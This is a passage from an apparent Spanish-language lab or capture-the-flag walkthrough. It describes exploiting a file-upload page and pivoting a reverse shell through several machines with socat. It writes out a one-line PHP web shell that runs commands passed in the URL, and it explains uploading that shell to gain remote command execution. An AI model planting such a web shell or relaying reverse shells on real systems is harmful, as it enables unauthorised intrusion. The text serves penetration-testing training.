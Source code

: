 nos reporta un único puerto abierto.

y es una pagina web que nos permite cargar un archivo, por lo que cargamos un archivo .php con el siguiente codigo.

```php
<?php
system($_GET['cmd']);
?>
```

esto nos permitirá ejecutar comando de forma remota. 

por lo que ahora nos enviamos una reverse shell para ganar acceso a la maquina.

pero antes debemos configurar con socat para que nos pueda llegar esa reverse shell.
____
![](attachment/3e46bbb7ab04b60abcfac6808e738100.png)
______
esto se hace para redirigir todo el trafico que pase por el puerto 5555 a nuestra maquina atacante, por lo que la reverse shell que enviemos primero debe de pasar por 4 maquinas hasta por fin llegar a la nuestra.
_______
![](attachment/aaa943a537a56aa4006f4b741240e8ea.png)
______